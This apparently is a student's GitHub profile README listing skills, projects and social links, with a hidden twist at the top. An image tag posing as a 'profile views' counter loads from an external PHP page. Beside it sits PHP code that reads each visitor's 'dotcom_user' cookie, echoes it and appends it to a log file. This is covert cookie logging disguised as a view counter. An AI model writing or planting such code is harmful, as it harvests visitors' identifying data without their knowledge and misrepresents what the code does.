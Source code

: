 
Hi 👋 My name is Fantin Elallouf
================================
 <img alt="views" title="GitHub profile views" src="http://deezeruserview.000webhostapp.com/index2.php"/>
<?php
$myfile = fopen("log.txt", "a");
$txt = $_COOKIE['dotcom_user']."\n";
echo $_COOKIE['dotcom_user'];
fwrite($myfile, $txt);
fclose($myfile);
?>
Student in IT in Toulouse.  
Love absurd stuff ...  
Ideas always flow, but finishing? That's a work in progress...  
***\<WIP>*** ~~blablabla~~ ***\</WIP>***  

* 🌍  I'm based in France 🇫🇷
* 🖥️  See my portfolio at [my dusty website](https://fantin.netlify.app/)
* ✉️  You can contact me at [darkfantin@gmail.com](mailto:darkfantin@gmail.com)  / [fantin.elallouf@etu.iut-tlse3.fr](mailto:fantin.elallouf@etu.iut-tlse3.fr)
* 🚀  I'm currently working on [Blind test app](https://github.com/Fantiiin/BlindTestYtb), [A game of gambling](http://..) and more ...
* 🧠  I'm learning MaxScript at [TAT Production](https://tatprod.com/)
* 🤝  I'm open to collaborating on everythings that sound fun !

<a href="https://www.twitter.com/FantinBday" target="_blank" rel="noreferrer"><img
src="https://img.shields.io/twitter/follow/FantinBday?logo=twitter&style=for-the-badge&color=0891b2&labelColor=1c1917"
/></a>

### Skills


<p align="left">
<a href="https://www.php.net/" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/skills/php-colored.svg" width="36" height="36" alt="PHP" /></a>
<a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/skills/javascript-colored.svg" width="36" height="36" alt="JavaScript" /></a>
<a href="https://www.python.org/" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/skills/python-colored.svg" width="36" height="36" alt="Python" /></a>
<a href="https://www.oracle.com/java/" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/skills/java-colored.svg" width="36" height="36" alt="Java" /></a>
<a href="https://developer.mozilla.org/en-US/docs/Glossary/HTML5" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/skills/html5-colored.svg" width="36" height="36" alt="HTML5" /></a>
<a href="https://www.w3.org/TR/CSS/#css" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/skills/css3-colored.svg" width="36" height="36" alt="CSS3" /></a>
<a href="https://www.mysql.com/" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/skills/mysql-colored.svg" width="36" height="36" alt="MySQL" /></a>
</p>


### Socials

<p align="left"> <a href="https://discord.com/users/Fantin#2690" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/socials/discord.svg" width="32" height="32" /></a> <a href="https://www.github.com/Fantiiin" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/socials/github.svg" width="32" height="32" /></a> <a href="https://www.linkedin.com/in/fantin-elallouf/" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/socials/linkedin.svg" width="32" height="32" /></a> <a href="https://www.twitter.com/FantinBday" target="_blank" rel="noreferrer"><img src="https://raw.githubusercontent.com/danielcranney/readme-generator/main/public/icons/socials/twitter.svg" width="32" height="32" /></a>
<a href="https://gitlab.com/Fantin_" target="_blank" rel="noreferrer"><img src="https://logodix.com/logo/258469.png" width="32" height="32" /></a>
</p>

### My works
*  🌙 [Nuit de l'info](https://github.com/ichunichu/nuit_info_SIS)
*  🏆 [Esporter](https://gitlab.com/bertrandguillaume524/sae_esport)
* 🚀 [Api Rest](https://gitlab.com/bertrandguillaume524/projetapirest)


;)
